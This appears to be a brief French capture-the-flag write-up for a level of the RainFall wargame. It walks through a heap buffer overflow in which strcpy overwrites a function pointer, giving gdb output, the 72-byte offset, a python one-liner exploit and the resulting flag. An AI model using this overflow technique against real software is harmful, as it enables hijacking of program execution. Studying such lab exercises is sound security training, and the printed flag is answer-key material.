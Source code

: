﻿Ici on a un programme qui appelle deux fois `malloc` pour allouer de la memoire.
Une fois avec 64 bits et une fois avec 4 bits.
Ensuite plus loin on a un `strcpy` qui copie `argv[1]` dans le buffer de 64 bits.
On peut donc faire un buffer overflow en passant un argument de plus de 64 bits.
On a pour objectif d'executer la fonction `n` au lieu de la fonction `m`.

Avec gdb je vois lors du `strcpy`:
```bash
(gdb) x/a $esp+0x1c                    ; adresse du pointeur du premier malloc
0xbffff6dc:     0x804a008
(gdb) x/a $esp+0x18                    ; adresse du pointeur du deuxieme malloc
0xbffff6d8:     0x804a050
```
Lorsqu'on fait la soustraction des deux adresses on obtient 0x48 soit 72 en decimal.

On peut donc faire notre exploit:
1. [72] On mets des characteres pour remplir le buffer
2. [72 + 4] On ecrase l'adresse de `m` par l'adresse de `n`

L'addresse de `n` est `0x8048454` soit `\x54\x84\x04\x08` en little endian.

```bash
level6@RainFall:~$ ./level6 $(python -c "print 'A'*72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```